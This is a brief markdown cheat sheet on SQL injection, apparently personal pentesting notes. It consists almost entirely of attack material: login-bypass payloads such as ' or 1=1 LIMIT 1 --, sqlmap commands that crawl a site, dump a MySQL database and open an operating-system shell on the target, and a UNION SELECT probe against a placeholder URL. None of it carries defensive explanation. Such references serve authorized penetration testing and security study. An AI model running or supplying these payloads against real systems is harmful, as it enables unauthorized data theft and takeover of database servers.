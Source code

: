 # SQL Injection

### Testing for Bypasses:

```
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
```

### SQLMAP

#### sqlmap crawl

```
sqlmap -u http://172.21.0.0 --crawl=1
```

#### sqlmap dump database

```
sqlmap -u http://172.21.0.0 --dbms=mysql --dump
```

#### sqlmap shell

```
sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell
```

### SQLI

Testing for a row:

```
http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8
```
